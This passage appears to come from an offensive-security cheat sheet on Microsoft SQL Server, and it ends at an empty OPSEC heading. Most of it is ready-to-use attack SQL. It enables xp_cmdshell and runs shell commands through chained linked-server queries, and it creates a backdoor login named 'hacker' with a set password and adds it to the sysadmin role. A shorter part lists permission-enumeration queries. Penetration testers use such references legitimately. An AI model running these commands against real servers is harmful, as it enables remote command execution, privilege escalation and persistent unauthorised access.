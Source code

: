 Manual exploitation

```sql
-- find link
select * from master..sysservers

-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## List permissions

Listing effective permissions of current user on the server.

```sql
SELECT * FROM fn_my_permissions(NULL, 'SERVER'); 
```

Listing effective permissions of current user on the database.

```sql
SELECT * FROM fn_my_permissions (NULL, 'DATABASE');
```

Listing effective permissions of current user on a view.

```
SELECT * FROM fn_my_permissions('Sales.vIndividualCustomer', 'OBJECT') ORDER BY subentity_name, permission_name; 
```

Check if current user is a member of the specified server role.

```sql
-- possible roles: sysadmin, serveradmin, dbcreator, setupadmin, bulkadmin, securityadmin, diskadmin, public, processadmin
SELECT is_srvrolemember('sysadmin');
```

## MSSQL OPSEC
